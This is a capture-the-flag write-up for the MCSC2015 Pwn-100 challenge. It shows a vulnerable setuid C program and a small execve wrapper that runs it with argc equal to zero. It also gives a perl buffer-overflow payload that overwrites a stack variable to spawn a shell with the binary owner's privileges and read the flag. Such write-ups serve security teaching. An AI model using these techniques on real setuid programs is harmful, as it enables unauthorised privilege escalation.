 #MCSC2015 writeup for Pwn-100<br>


pwn0@MCSC2015:/challenges/pwn0$ ls -l<br>
total 16<br>
-rws--s--x 1 pwned0 pwned0 7492 mai   18 15:13 0<br>
-r-------- 1 pwned0 pwned0   52 mai   18 15:13 FLAG<br>
-rw-r--r-- 1 root   root    558 mai   18 15:13 pwn0.c<br>
<br>
after a quick view in pwn0.c, here's an interesting function<br>
<br>
void vuln()<br>
{<br>
	unsigned int reg;<br>
	char buffer[BUFF_SIZE];<br>
	fgets(buffer , BUFF_SIZE+5 , stdin);<br>
	if(reg == 78954)<br>
	{<br>
		printf("You Win\n");<br>
		system("/bin/dash");<br>
	}<br>
}<br>
<br>
However, this function is executed if and only if argc is equal to zero.<br>
In that case, execve can be handy ...<br>
<br>
<br>
Step 1 : run the program with argc equals to zero to allow the function vuln() to be executed.<br>
Step 2 : overwrite the variable reg with 78954<br>
if(reg == 78954)<br>
{<br>
	printf("You Win\n");<br>
	system("/bin/dash");<br>
}<br>
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>
Step1 : run a program with argc=0<br>
What's special about the family exec call system ?<br>
execve allows you to specify the command-line arguments (including the program name).<br>
a normal call to execve for example would be :<br>
execve("/home/xxx/prog","prog",NULL) witch is similar to /home/xxx/prog with argc equals to 1 as usual ....<br>
execve("/home/xxx/prog",NULL,NULL) would be a little bit different .... argc is equal to zero in that case.<br>
<br>
with that said, let's start exploiting .....<br>
First, we write a small program <br>
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>
\#include \<stdio.h><br>
\#include \<stdlib.h><br>
int main()<br>
{<br>
	execve("/challenges/pwn0/0",NULL,NULL);<br>
}<br>
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>
pwn0@MCSC2015:/tmp$ mkdir /tmp/testing<br>
pwn0@MCSC2015:/tmp$ cd /tmp/testing/<br>
pwn0@MCSC2015:/tmp/testing$ cat wrapper.c<br>
\#include \<stdio.h><br>
\#include \<stdlib.h><br>
int main()<br>
{<br>
	execve("/challenges/pwn0/0",NULL,NULL);<br>
}<br>
pwn0@MCSC2015:/tmp/testing$ gcc wrapper.c -o wrapper<br>
pwn0@MCSC2015:/tmp/testing$ ./wrapper <br>
Good Boy<br>
test<br>
pwn0@MCSC2015:/tmp/testing$<br>
<br>
we are finally able to execute the vuln() function, let's try to exploit it:<br>
The buffer size is 64, 78954 to hexadecimal is 0x1346A<br>
===========================<br>
A successful exploitation would be like this:<br>
pwn0@MCSC2015:/challenges/pwn0$ perl -e 'print "A"x64 . "\x6a\x34\x01\x00"' > /tmp/testing/input<br>
pwn0@MCSC2015:/challenges/pwn0$ cat /tmp/testing/input -|/tmp/testing/wrapper <br>
Good Boy<br>
You Win<br>
id<br>      
uid=1001(pwn0) gid=1001(pwn0) euid=1002(pwned0) egid=1002(pwned0) groups=1002(pwned0),1001(pwn0)<br>
cat FLAG<br>
flaG{I_4M_Th3_EaSy_One_Pwn_th3_N3xt_L3vel_If_U_C4N}<br>
<br>
